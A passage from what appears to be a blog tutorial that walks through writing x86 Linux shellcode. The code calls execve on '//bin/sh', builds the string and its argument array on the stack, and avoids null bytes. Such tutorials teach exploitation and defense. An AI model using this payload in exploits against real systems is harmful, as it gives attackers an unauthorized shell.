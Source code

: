 We have to put the string on in reverse order so we start with the null
terminator

{% highlight nasm %}
  xor eax, eax  ; zero out eax
  push eax      ; push the 0x0 on the stack
{% endhighlight %}

we now have the null terminator on the stack so now lets get the rest of the
string. We'll use python to get the hex value for this
```
  $ python -c 'print "//bin/sh"[::-1].encode("hex")'
  68732f6e69622f2f
```
So we split this in half and then push it onto the stack

{% highlight nasm %}
  push 0x68732f6e   ; push the first half to the stack
  push 0x69622f2f   ; push the second half of the stack
  mov ebx, esp      ; move the address of the stack pointer to ebx (1st
                    ; parameter to execve
{% endhighlight %}

Now we can do two things next
1. Push the 0x0 onto the stack that we can use for the 3rd parameter (address of
   which will go into EDX)
2. We can use the address stored in EBX (the address //bin/sh string) as the
   value of ECX

Point 2 easy to see if you visualize the stack
```
Top                 Bottom of Stack
0x00000000 //bin/sh 0x00000000
EDX        EBX
```
So now if we point ECX to the address of the //bin/sh string we have our array

{% highlight nasm %}
  push eax      ; push 0x0 on the stack
  mov  edx, esp ; move the address of 0x0 to the 3rd param
  push ebx      ; push the address of //bin/sh on the stack
  mov  ecx, esp ; move the address of the address of //bin/sh into ecx
                ; which is our secong parameter
{% endhighlight %}

All that is left to do is to make the call

{% highlight nasm %}
  mov al, 11  ; move 11 into EAX (execve call is number 11)
  int 0x80    ; trigger the call
{% endhighlight %}

Above you will notice I use the al register which the the 8bit version of the
EAX register, this is so there are no NULL bytes in the assembly as 32 bit
version of 11 in hex is 0x0000000b and the 8 bit version is 0x0b.

